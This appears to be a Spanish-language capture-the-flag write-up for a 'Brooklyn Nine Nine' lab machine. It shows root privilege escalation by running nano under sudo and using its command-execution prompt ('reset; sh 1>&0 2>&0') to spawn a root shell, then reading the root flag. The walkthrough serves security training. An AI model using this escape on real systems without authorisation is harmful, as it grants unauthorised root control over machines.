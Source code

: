 🔎 Búsqueda en GTFOBins

<img width="1117" height="544" alt="gtfobins sudo" src="https://github.com/user-attachments/assets/08a3efb5-cb70-46ab-a2c9-e3cd29508605" />

Se consultó la página de GTFOBins para el binario nano y la capacidad de ejecutarlo con sudo. La sección "Sudo" proporciona la técnica para escapar del editor y obtener una shell con privilegios elevados.

El método es el siguiente:

Ejecutar sudo nano para iniciar el editor con privilegios de root.

Dentro de nano, utilizar la función de ayuda o ejecutar un comando shell.

<img width="732" height="123" alt="hago un sudo nano con el comando" src="https://github.com/user-attachments/assets/1ef736b6-5b0c-45a7-a02e-d909fd818720" />


💻 Ejecución de la Escalada

Se ejecuta nano como root:
````
Bash

holt@brookly_nine_nine:~$ sudo /bin/nano
````
Una vez dentro del editor nano:

Presiona Ctrl+R (Read File/Leer Archivo).

Presiona Ctrl+X para cancelar la lectura de archivo e ir al prompt de comando (Command to execute).

Ingresa el comando para obtener una shell bash:
````
Command to execute: reset; sh 1>&0 2>&0
````
Este comando ejecuta una nueva shell (sh) que hereda los privilegios del proceso padre, que es sudo nano (ejecutándose como root).

🔀 Obtención de la Shell de Root

Al ejecutar el comando, se obtiene una nueva shell con el prompt de root (#):

<img width="749" height="331" alt="ejecuto el comando y obtenemos la flag root" src="https://github.com/user-attachments/assets/4ed04de8-0f1e-4f9c-a378-bec020ade843" />

````
Bash

whoami
root
````
Hemos obtenido acceso de root a la máquina.

🚩 Obtención de la Flag de Root

Finalmente, se navega al directorio home de root (/root) y se lee el archivo root.txt para completar el CTF:

````
Bash

cd /root
ls
root.txt
cat root.txt
[Contenido de la flag de root]
````
(Aquí se incluye la flag final, root.txt)

